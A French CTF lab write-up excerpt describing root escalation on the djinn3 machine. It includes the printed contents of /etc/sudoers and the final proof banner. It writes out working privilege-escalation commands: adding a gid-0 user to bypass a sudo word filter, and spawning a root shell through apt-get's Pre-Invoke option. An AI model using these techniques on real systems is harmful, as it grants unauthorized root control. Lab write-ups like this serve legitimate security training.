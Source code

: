 Il y a une permission `sudo` pour rajouter un utilisateur. La ligne de commande ne doit pas inclure les mots `sudo` ou `admin`.

Ma première idée a été de créer un utilisateur dans le groupe `root` en me disant que je parviendrais à en tirer quelque chose :

```console
sudo /usr/sbin/adduser --gid 0 --home /root --shell /bin/bash devloop
```

En effet, c'est suffisant pour lire le contenu de `/etc/sudoers` :

```
saint ALL=(root) NOPASSWD: /usr/sbin/adduser, !/usr/sbin/adduser * sudo, !/usr/sbin/adduser * admin
jason ALL=(root) PASSWD: /usr/bin/apt-get
```

On découvre qu'un utilisateur nommé `jason` (qui n'existe plus sur le système) pouvait utiliser `apt-get` en tant que root.

Une fois l'utilisateur jason créé on peut utiliser un [GTFObin](https://gtfobins.github.io/gtfobins/apt-get/) pour la commande :

```console
jason@djinn3:/home/saint$ sudo /usr/bin/apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
proof.sh
```

Le script affiche le flag final :

```
    _                        _             _ _ _ 
   / \   _ __ ___   __ _ ___(_)_ __   __ _| | | |
  / _ \ | '_ ` _ \ / _` |_  / | '_ \ / _` | | | |
 / ___ \| | | | | | (_| |/ /| | | | | (_| |_|_|_|
/_/   \_\_| |_| |_|\__,_/___|_|_| |_|\__, (_|_|_)
                                     |___/       
djinn-3 pwned...
__________________________________________________________________________

Proof: VGhhbmsgeW91IGZvciB0cnlpbmcgZGppbm4zID0K
Path: /root
Date: Tue Nov 22 17:31:26 IST 2022
Whoami: root
__________________________________________________________________________

By @0xmzfr

Special thanks to @DCAU7 for his help on Privilege escalation process
And also Thanks to my fellow teammates in @m0tl3ycr3w for betatesting! :-)

If you enjoyed this then consider donating (https://blog.mzfr.me/support/)
so I can continue to make these kind of challenges.
```
